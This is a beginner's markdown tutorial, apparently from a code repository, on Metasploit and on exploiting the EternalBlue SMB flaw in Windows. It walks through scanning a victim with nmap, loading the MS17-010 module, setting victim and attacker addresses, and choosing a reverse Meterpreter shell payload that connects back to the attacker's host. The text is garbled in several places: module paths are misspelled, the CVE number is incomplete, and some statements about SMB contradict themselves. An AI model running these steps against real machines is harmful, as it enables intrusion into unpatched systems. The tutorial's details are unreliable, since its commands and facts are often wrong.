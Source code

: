 #### After starting Metasploit 
- We can search any exploit for a system.
- Example: for apache  ``search apache``
- **Create a Payload for windows  We will use metasploits Feature called msfvenom to create a payload.**
- if you went to use some expoit or auxilary tpe or assigned number or thier name ``use <your number>``

## Problem.
- Metasploit is a very old tool and even the encoders are very old.
- This means almost every users tried them and exploited for some time but now a days all the antivirus and Microsoft defender will stop them and detect them.
- But it is Still handy tool for other exploitation and Scanning, you will see it in the future use.
- If you want to test these encoders on your system(may be if it is vulnerable for some of them.)
- Just add -e and the encoder name from the list and create the payload.(msfvenom)
  
### lets exploit Enternal Blue on Metasploit  do not worry this is the Eduacatinal perpouse only !!🔥🔥

### What is Eternal blue ?
- It is developed by the USA National Security agency .
- It is exploiting the vulnerability of Microsoft Windows ,and it has high risk on users .
- It is a vulnerability /wake of Microsoft Windows,hackers can exploit computers using different programs.
### Which vulnerability is exploited by this exploit?
- It is specifically targeted for the vulnerability of Microsoft Windows operating system .
- It is Known as CVE-2017 
### How does it work?
- It works in SMB(server message Blocker) used server computer to other computer and server toyour computer like printer,server and others in remote access .
- If you connect your computer to the printer, when you print your document your computer uses SMB protocol to send a request to a printer.
- There are many SMB protocols like SMBV1(server message blocker version one ), SMBV2(server message blocker version two) and SMBV3.
- SMB1(It is mainly a vulnerability in Microsoft Windows operating system because many computers are affected by this ,because hackers use it for malicious purposes )- - SMB3 is more secure than SMB1 and SMB3.
### How hackers gain access?

- **Do not worry, I'm gonna show how hackers attack computers for Educational purposes only. ok lets start!!🔥🔥**
- ### A)  Information Gathering
- Before we start we must gather information about the system. 
- We should know about their OS system.(os detection) use nmap
- “sudo nmap -A <victim>” Example: ``sudo namp -A 192.160.0.0``
- ### B) Starting Metasploit
- In your terminal do not have metasploit you must install it especially on ubuntu ``sudo apt install metasploit -y``
-  after install start it in this command ``msfconsole -q``
- Type this command to search enteral blue exploitation
1) ``search exploit window/smb/window/sumb`` and you will see list and find enternal blue 
2) Type this to use ``use window exploit/sub/window/sumb/ms17_010_enternal_blue`` or select it containing number and type ``use 19`` or type 19 containing characters.
3) And insert victim ip set RHOST <VIctim ip> Example: ``set RHOS 192.168.0.0``
4) insert Attacker ip E.g set LHOST <your ip> used for listen for victim Example: ``set LHOST 10.0.2.0``
5) After that set payloads we get a reverse meterpreter shell to access the victim computer to enable us to use this command .
- And type this ``set payload windows/x64/meterpreter/reverse_http``